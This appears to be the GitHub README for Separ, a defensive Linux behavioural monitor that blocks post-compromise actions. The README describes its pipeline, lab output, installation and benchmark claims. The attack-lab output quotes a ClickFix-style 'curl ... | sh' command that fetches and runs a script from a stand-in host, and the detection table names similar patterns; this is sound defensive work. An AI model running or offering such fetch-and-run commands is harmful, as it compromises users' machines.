

# 🛡️ Separ — The Fire Shield Against Network Attacks

[](https://www.python.org/)
[](LICENSE)
[](tests/)
[](src/refmon/calculus/privacy.py)
[](src/refmon/signing.py)
[](dist/)

**Separ** (*The Fire Shield*) is a deterministic, privacy-preserving behavioral reference monitor and live attack barrier for Linux endpoints, campus servers, and HPC clusters. Instead of relying on static antivirus signatures or opaque machine learning, Separ evaluates post-compromise behavior through three questions—**Origin**, **Contract**, and **Effect**—while hashing sensitive command-line secrets in RAM before anything touches disk.

> 📚 **Documentation & Reports**
> - 📄 **Academic Paper (8 pages):** [documentation/main.pdf](documentation/main.pdf) ([LaTeX Source](documentation/main.tex))
> - 🛠️ **IT Service Desk Operations & Setup Guide (PDF):** [it-service-desk/guide.pdf](it-service-desk/guide.pdf) ([LaTeX Source](it-service-desk/guide.tex))
> - 📊 **Comparative Evaluation Report:** [docs/comparative_report.md](docs/comparative_report.md)

---

## 🖥️ Standalone Desktop GUI (`separ gui`)

`separ gui` launches directly as a standalone Linux application window (via Chromium `--app` mode or Firefox `--new-window`, with automatic `$SUDO_USER` X11/Wayland privilege handling) and streams live system sensor events, policy status, and incident alerts in real time.

<p align="center">
  
</p>

---

## ⚙️ How It Works: The Six-Stage Pipeline

```text
Sensors (CLI Guard, Tetragon eBPF, Falco, SSHD, Shibboleth, 6-Engine Rootkit)
   │
   ▼
[ 1. Observe ] ──► Zero-Raw Privacy Wall (HMAC-SHA256 in RAM, entropy, b64, whitespace, Bloom filter)
   │
   ▼
[ 2. Tag ]     ──► Half-life provenance decay (30 min, frozen on violation) + Noisy-OR fusion
   │
   ▼
[ 3. Link ]    ──► Causal process story grouping + role surprisal + Poisson burst & CUSUM drift
   │
   ▼
[ 4. Judge ]   ──► Three-Question Bayesian Calculus: Origin + Contract + Effect
   │
   ▼
[ 5. Gate ]    ──► Contract Gate invariant (ALLOW / HOLD / BLOCK)
   │
   ▼
[ 6. Contain ] ──► Kill process tree, cut network, quarantine files (0400), notify GUI & webhooks
```

### The Three Questions
| Question | What It Checks | Why It Matters |
| :--- | :--- | :--- |
| **1. Origin** | Where did the input come from (`web`, `mail`, `agent_input`, `download`)? | Separates typed developer commands from **ClickFix** webpage pastes or poisoned AI agent prompts. |
| **2. Contract** | Did the process break its Ed25519-signed role contract? | Catches zero-day exploits (e.g., a `web_worker` spawning `/bin/sh`) without signatures; enforces the **Contract Gate**. |
| **3. Effect** | What dangerous outcome is attempted (`fetch`, `credential`, `persist`, `mass_change`)? | Distinguishes harmless pasted text (`echo hello`) from malicious payloads (`curl ... \| sh`). |

---

## 💻 Live Terminal Outputs

### 1. Upfront Policy & Key Setup (`separ setup`)
```text
$ separ setup --laptop
================================================================
 Separ Security Configuration & Policy Setup
================================================================
✓ Generated administrative signing key: /home/user/.separ/admin.key
✓ Configuring for: Workstation / Laptop Endpoint
✓ Signed and verified policy written to: /home/user/.separ/policy.yaml
  Mode                  : OBSERVE
  Campus CIDRs protected: 139.18/16, 10.0.0.0/8, 172.16.0.0/12
  Internal domains      : tu-freiberg.de
================================================================
Setup complete! You can now start Separ:
  separ gui
================================================================
```

### 2. Pre-Execution Attack Barrier (`separ lab --run 1 30`)
```text
--- [1] ClickFix: 'fix your browser' paste
  $ curl -fsSL https://update-fix.example.invalid/fix.sh | sh
  origin=web  role=interactive_shell
  Separ  : BLOCK   L=-2.61 nats   Origin FAIL  Contract FAIL  Effect FAIL
  Result : STOPPED: the command never ran
  Check  : PASS attack caught

--- [30] echo
  $ echo hello-tubaf
  origin=none  role=interactive_shell
  Separ  : ALLOW   L=-6.91 nats   Origin ok  Contract ok  Effect ok
  Result : ALLOWED (hello-tubaf)
  Check  : PASS benign command allowed
```

### 3. Six-Engine, Two-Pass Rootkit Scanner (`separ scan-rootkit`)
```text
$ separ scan-rootkit
Separ Rootkit & Stealth Scanner
  two-view passes        2
  own processes checked  2
  kernel modules checked 109
  net interfaces checked 6
  total log-odds (nats)  -6.91  (hold >= -4.94, block >= -3.91)
  calculus decision      ALLOW
  findings               0
```

---

## 🚀 Installation & Quick Start

### Option A: Native Linux Packages (Recommended)
```bash
# Debian / Ubuntu / Kali Linux (568 KB)
sudo apt install ./dist/separ_2.0.0_all.deb

# RHEL / Rocky Linux / AlmaLinux / Fedora (293 KB)
sudo dnf install ./dist/separ-2.0.0-1.noarch.rpm
```

### Option B: POSIX Installer Script (`install.sh`)
```bash
# System-wide install (servers / IT admins -> /usr/local, /etc/separ)
sudo ./install.sh

# Unprivileged user install (laptop -> ~/.local)
./install.sh
```

### Configure & Launch
```bash
# 1. Configure and sign policy upfront
sudo separ setup --server --mode observe   # Campus / production server
separ setup --laptop --mode block          # Developer laptop

# 2. Launch standalone desktop GUI (or click "Separ" in your Linux App Menu)
separ gui

# 3. Verify host integrity, privacy audit, and full attack lab
separ scan-rootkit
separ audit
separ lab --test-all
```

---

## 📊 Benchmark Results & Related-Work Summary

| Metric / Benchmark | Result |
| :--- | :--- |
| **Golden Scenario Catalog (46 scenarios, 17 families)** | **100% (46/46)** exact expected decisions |
| **Seeded Mutation Matrix (886 variants across 6 dimensions)** | **98.4%** malicious contained, **0.0%** neutral false blocks |
| **Interactive Attack Lab (35 templates)** | **28/28** attacks detected (`27/28` pre-exec), **0/6** benign FPs, `4.5 ms` median |
| **Adversarial Privacy Audit (`separ audit`)** | **0/264** cleartext leaks, **0/349** HMAC dictionary reversals |
| **Automated Test Suite (`pytest`)** | **2,354 passing tests** |

---

## 🧰 Tech Stack & Integrations

- **Core Runtime:** [Python 3.12](https://www.python.org/), [Pydantic v2](https://docs.pydantic.dev/), [PyYAML](https://pyyaml.org/), [cryptography](https://cryptography.io/) (Ed25519 & HMAC-SHA256)
- **Server Sensor Mappings (`/etc/separ/mappings/`):** [Cilium Tetragon (eBPF)](https://tetragon.io/), [CNCF Falco](https://falco.org/), [systemd / journald SSHD](https://systemd.io/), [Shibboleth IdP](https://www.shibboleth.net/), [Kubernetes Audit](https://kubernetes.io/), [Postfix/Dovecot](https://www.postfix.org/), [Keycloak](https://www.keycloak.org/), Microsoft 365
- **Testing & Tooling:** [pytest](https://docs.pytest.org/), [Hypothesis](https://hypothesis.readthedocs.io/), [Ruff](https://docs.astral.sh/ruff/), [Matplotlib](https://matplotlib.org/), [LaTeX / TikZ](https://www.latex-project.org/)

---

## 👤 Author & Contact

- **Parsa Besharat**
- 📧 Email: [parsa.besharat@student.tu-freiberg.de](mailto:parsa.besharat@student.tu-freiberg.de) / [parsa@parsabe.com](mailto:parsa@parsabe.com)
- 🐙 GitHub: [https://github.com/parsabe/Separ](https://github.com/parsabe/Separ)
